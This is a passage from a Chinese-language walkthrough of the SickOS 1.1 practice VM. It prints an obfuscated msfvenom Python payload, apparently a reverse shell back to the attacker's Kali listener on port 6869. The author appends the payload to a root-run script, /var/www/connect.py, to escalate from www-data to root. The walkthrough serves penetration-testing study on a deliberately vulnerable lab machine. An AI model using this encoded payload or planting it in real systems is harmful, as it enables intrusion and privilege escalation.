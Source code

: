> payload如下：
>
> `exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNqFT8sKwjAQ/JWSUwKSPsRqkRyKVBBRwfZebIy0WLOhm/6/xAQ8di/DPHaHHT4GJhshyLeykZsVzp2ZQCpEz+GH+6gHtIKkCS/4dsPXxKtuXeS7vPAUhT/FPdDAymN7ulZNKPBafTuc27q5V+WFhWUuQWslLaWuzKddAQsBQP6cTUaRv4ZRaaDMZ5IFP13ws+Ab8X+ey8c4UhJ3g46xJ+wLkl1TyA==')[0])))`

 回到www-data的shell中，在/var/www/connect.py文件中添加msfvenom生成的payload。由于这个shell交互性还是差，vi或vim工具太难用了，因此我直接追加命令到connect.py，运行命令的目录是/var/www

```bash
echo "exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNqFT8sKwjAQ/JWSUwKSPsRqkRyKVBBRwfZebIy0WLOhm/6/xAQ8di/DPHaHHT4GJhshyLeykZsVzp2ZQCpEz+GH+6gHtIKkCS/4dsPXxKtuXeS7vPAUhT/FPdDAymN7ulZNKPBafTuc27q5V+WFhWUuQWslLaWuzKddAQsBQP6cTUaRv4ZRaaDMZ5IFP13ws+Ab8X+ey8c4UhJ3g46xJ+wLkl1TyA==')[0])))">>connect.py
```



![image-20231210151703530](./SickOS1.1.assets/image-20231210151703530.png)

kali开启监听6869端口

成功拿到root

![image-20231210151928913](./SickOS1.1.assets/image-20231210151928913.png)